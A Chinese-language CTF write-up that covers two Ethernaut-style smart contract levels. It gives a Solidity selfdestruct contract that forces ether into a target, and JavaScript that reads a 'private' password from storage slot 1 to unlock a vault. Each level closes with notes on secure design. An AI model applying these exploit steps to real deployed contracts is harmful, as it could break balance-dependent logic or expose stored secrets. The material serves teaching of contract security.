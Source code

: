## 07. Force ✅ [Medium]

这关主要考察对selfdestruct的理解：
- selfdestruct 是 Solidity 中的一个低级函数，用于销毁合约并将其所有余额发送给指定的目标地址。
- 攻击者可以利用 selfdestruct 来强制将合约的余额发送给目标地址

攻击步骤：
1. 部署一个新合约并向该合约发送以太币。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceAttack {
    constructor() public payable {
        // 构造函数可接收以太币
    }

    function attack(address payable _target) public {
        selfdestruct(_target);
    }
}
```

2. 调用 `attack()` 函数，将合约的余额发送给目标地址
```js
// 调用攻击函数，强制发送以太币
await attackContract.attack(contract.address);
// 验证 Force 合约的余额
const balance = await web3.eth.getBalance(contract.address);
console.log("Force Contract Balance:", balance);
```

学习要点：
- 理解 selfdestruct 的机制
- 确保你的合约逻辑不依赖于余额为零的假设。
- 避免在代码中直接检查合约余额。

## 08. Vault ✅ [Easy]

这关主要考察对区块链的存储的理解：
- 区块链的存储是公开的，任何人都可以查看，哪怕存储是private的数据也可以查看
- 攻击者可以利用区块链的存储来获取合约的密码
- Solidity 中的所有状态变量都存储在合约的存储槽（Storage Slots）中。
- 公共变量（如 locked）可以直接通过合约接口读取。
- 私有变量（如 password）虽然标记为 private，但实际上只是在 Solidity 中不可直接通过合约代码访问。它们仍然可以通过低级的存储读取方法（如 web3.eth.getStorageAt）获取。

攻击步骤：
1. 使用 web3.eth.getStorageAt 读取存储槽 1 的内容（password 存储在存储槽 1）。
```js
await web3.eth.getStorageAt(contract.address, 1).toString();
```
2. 将读取到的密码作为参数调用 `unlock()` 函数。
```js
await contract.unlock(password);
```

